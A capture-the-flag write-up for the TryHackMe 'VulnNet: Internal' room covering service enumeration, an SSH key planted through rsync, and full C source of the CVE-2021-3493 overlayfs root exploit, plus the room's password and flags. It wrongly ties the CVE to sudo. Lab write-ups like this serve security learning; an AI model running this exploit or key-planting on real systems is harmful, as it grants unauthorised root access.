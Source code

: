 ```yaml
---
title: Vulnet:Internal
layout: post
author: Bit Criminals Team
date: 2021-05-06 17:02:00 +0530
type: Pentesting
difficulty: Medium
prompt: https://tryhackme.com/room/vulnnetinternal
---
```


Running a full port Nmap scan,I got some uncommon and interesting ports.

![](/images/nmap1.png)

Apart from these we also got 

![](/images/ports.png)

Thus we got ourselves **a SMB , NFS , redis and a rsync port** which appeared worthy of enumerating to me.

First a enumerate the SMB port 

![](/images/smb.png)

You can always tag help to know about the SMB port commnads if you have no idea
We get our first flag here.

After this,we enumerate the NFS port,

First we know about the directory to be mounted and then,mount it in our local machine.

![](/images/nfs.png)

After, that we find a redis directory in the mounted dir.Within, the redis dir we found a redis.conf file.

Within the redis.conf file we found a password
***B65Hx562F@ggAZ@F***
which is most probably the password for the redis port.

Now we connected to rsync and got the user flag in the sys-internal User's directory

![](/images/rsync.png)

```User flag : THM{da7c20696831f253e0afaca8b83c07ab}```

Now we created an id_rsa key and using rsync transferred this key to authorised keys folder in the sys-internal User's directory 
The commands are:

```py
ssh-keygen -f ./id_rsa
rsync -ahv ./id_rsa.pub rsync://rsync-connect@<ip>/files/sys-internal/.ssh/authorized_keys
ssh -i ./id_rsa sys-internal@10.10.53.133
```

![](/images/ssh.png)

And then we connected using ssh to the machine..

![](/images/ssh2.png)

After searching thoroughly through the machine we did not find anything that could be counted as a vulnerability to exploit in order to gain root privileges, so we turn to the sudo version. Googling for exploits on the sudo version we find a vulnerability CVE-2021-3493 which allows to user to mount to root privileges.

So we copy the exploit code into a file in the /tmp directory using nano and compile the code.

```C
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <err.h>
#include <errno.h>
#include <sched.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/wait.h>
#include <sys/mount.h>

//#include <attr/xattr.h>
//#include <sys/xattr.h>
int setxattr(const char *path, const char *name, const void *value, size_t size, int flags);


#define DIR_BASE    "./ovlcap"
#define DIR_WORK    DIR_BASE "/work"
#define DIR_LOWER   DIR_BASE "/lower"
#define DIR_UPPER   DIR_BASE "/upper"
#define DIR_MERGE   DIR_BASE "/merge"
#define BIN_MERGE   DIR_MERGE "/magic"
#define BIN_UPPER   DIR_UPPER "/magic"


static void xmkdir(const char *path, mode_t mode)
{
    if (mkdir(path, mode) == -1 && errno != EEXIST)
        err(1, "mkdir %s", path);
}

static void xwritefile(const char *path, const char *data)
{
    int fd = open(path, O_WRONLY);
    if (fd == -1)
        err(1, "open %s", path);
    ssize_t len = (ssize_t) strlen(data);
    if (write(fd, data, len) != len)
        err(1, "write %s", path);
    close(fd);
}

static void xcopyfile(const char *src, const char *dst, mode_t mode)
{
    int fi, fo;

    if ((fi = open(src, O_RDONLY)) == -1)
        err(1, "open %s", src);
    if ((fo = open(dst, O_WRONLY | O_CREAT, mode)) == -1)
        err(1, "open %s", dst);

    char buf[4096];
    ssize_t rd, wr;

    for (;;) {
        rd = read(fi, buf, sizeof(buf));
        if (rd == 0) {
            break;
        } else if (rd == -1) {
            if (errno == EINTR)
                continue;
            err(1, "read %s", src);
        }

        char *p = buf;
        while (rd > 0) {
            wr = write(fo, p, rd);
            if (wr == -1) {
                if (errno == EINTR)
                    continue;
                err(1, "write %s", dst);
            }
            p += wr;
            rd -= wr;
        }
    }

    close(fi);
    close(fo);
}

static int exploit()
{
    char buf[4096];

    sprintf(buf, "rm -rf '%s/'", DIR_BASE);
    system(buf);

    xmkdir(DIR_BASE, 0777);
    xmkdir(DIR_WORK,  0777);
    xmkdir(DIR_LOWER, 0777);
    xmkdir(DIR_UPPER, 0777);
    xmkdir(DIR_MERGE, 0777);

    uid_t uid = getuid();
    gid_t gid = getgid();

    if (unshare(CLONE_NEWNS | CLONE_NEWUSER) == -1)
        err(1, "unshare");

    xwritefile("/proc/self/setgroups", "deny");

    sprintf(buf, "0 %d 1", uid);
    xwritefile("/proc/self/uid_map", buf);

    sprintf(buf, "0 %d 1", gid);
    xwritefile("/proc/self/gid_map", buf);

    sprintf(buf, "lowerdir=%s,upperdir=%s,workdir=%s", DIR_LOWER, DIR_UPPER, DIR_WORK);
    if (mount("overlay", DIR_MERGE, "overlay", 0, buf) == -1)
        err(1, "mount %s", DIR_MERGE);

    // all+ep
    char cap[] = "\x01\x00\x00\x02\xff\xff\xff\xff\x00\x00\x00\x00\xff\xff\xff\xff\x00\x00\x00\x00";

    xcopyfile("/proc/self/exe", BIN_MERGE, 0777);
    if (setxattr(BIN_MERGE, "security.capability", cap, sizeof(cap) - 1, 0) == -1)
        err(1, "setxattr %s", BIN_MERGE);

    return 0;
}

int main(int argc, char *argv[])
{
    if (strstr(argv[0], "magic") || (argc > 1 && !strcmp(argv[1], "shell"))) {
        setuid(0);
        setgid(0);
        execl("/bin/bash", "/bin/bash", "--norc", "--noprofile", "-i", NULL);
        err(1, "execl /bin/bash");
    }

    pid_t child = fork();
    if (child == -1)
        err(1, "fork");

    if (child == 0) {
        _exit(exploit());
    } else {
        waitpid(child, NULL, 0);
    }

    execl(BIN_UPPER, BIN_UPPER, "shell", NULL);
    err(1, "execl %s", BIN_UPPER);
}

```
Executing the compiled code gives us root privileges. From there we go to the /root directory and print the contents of root.txt to obtain the root flag.

![](/images/MaskdMafia/internal.png)

```Root Flag:THM{e8996faea46df09dba5676dd271c60bd}```